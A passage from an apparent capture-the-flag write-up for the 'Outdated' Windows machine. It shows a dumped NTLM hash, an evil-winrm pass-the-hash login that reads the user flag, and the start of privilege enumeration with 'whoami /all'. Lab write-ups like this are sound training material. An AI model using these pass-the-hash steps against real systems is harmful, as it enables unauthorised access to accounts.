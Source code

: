 ```bash
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

We get a TGT and at the bottom we find the NTLM hash for `sflowers`, use `evil-winrm` and pass-the-hash:
```bash
➜  outdated evil-winrm -i outdated.htb -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5
*Evil-WinRM* PS C:\Users\sflowers\Desktop> type user.txt
0190f8bd21ac78cd004055a7eb6bafb8
```

-------
# Root
### Step 1
Lets start by doing some quick manual enumeration.

```powershell
*Evil-WinRM* PS C:\Users> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ============================================
outdated\sflowers S-1-5-21-4089647348-67660539-4016542185-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ===============================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
OUTDATED\WSUS Administrators                Alias            S-1-5-21-4089647348-67660539-4016542185-1000 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------
```